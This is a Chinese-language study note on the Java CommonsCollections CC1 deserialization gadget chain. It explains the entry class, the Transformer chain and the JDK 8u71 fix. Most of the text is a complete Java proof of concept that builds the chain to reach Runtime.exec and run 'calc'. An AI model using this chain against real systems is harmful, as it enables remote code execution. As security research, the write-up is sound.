 CC1链：java<=JDK8u71、CommonsCollections<=3.2.1

Java原生的标准反序列化要利用一定要满足两个条件，入口类实现了序列化接口并且重写了readObject函数。实现序列化接口的类才能被Java序列化和反序列化，重写readObject方法才有可能执行到危险方法。否则无法调起和执行其他代码，更无从谈起利用。

要找到这么一个类，他可以反序列化并且重新了readObject方法，readObject方法中可以利用，则我们就反序列化这个类。
CommonsCollections库中就有这么一个类AnnotationInvocationHandler。
并且通过中间的Transformer类，可以任意执行代码，成功通过反射Runtime.class执行命令。




## **执行流程**
![](.topwrite/assets/image_1727054486304.png)
![](.topwrite/assets/image_1727054525365.png)


## **修复**
因为在JDK1.8的8u71之后的版本反序列化不再通过 defaultReadobject 方式，而是通过readFields来获取几个特定的属性，defaultReadobject 可以恢复对象本身的类属性，比如 this.memberValues就能恢复成我们原本设置的恶意类，但通过 readFields 方式，this.memberValues就为null，所以后续执行get()就必然没触发，这也就是高版本不能使用的原因。

## **验证**
```
public class POC1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        //Runtime r = Runtime.getRuntime();
  /*      Class c = Runtime.class;
        Method getRuntimeMethod = c.getMethod("getRuntime", null);
        Runtime r = (Runtime) getRuntimeMethod.invoke(null, null);
        Method execMethod = c.getMethod("exec", String.class);
        execMethod.invoke(r,"calc");*/
   /*     Method getRuntimeMethod = (Method)new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}).transform(Runtime.class);

        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, null}).transform(getRuntimeMethod);

        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(r);
*/
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(Runtime.class);


        //InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","bbb");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
/*        for(Map.Entry entry:transformedMap.entrySet()){
 //          entry.setValue(Runtime.class);
        }*/
        //AnnotationInvocationHandler
        /*  Reader*/
            Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationdhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationdhdlConstructor.setAccessible(true);
        Object o = annotationInvocationdhdlConstructor.newInstance(Target.class,transformedMap);

        serialize(o);
        unserialize("ser.bin");

    }
    public static void serialize(Object obj) throws IOException, IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

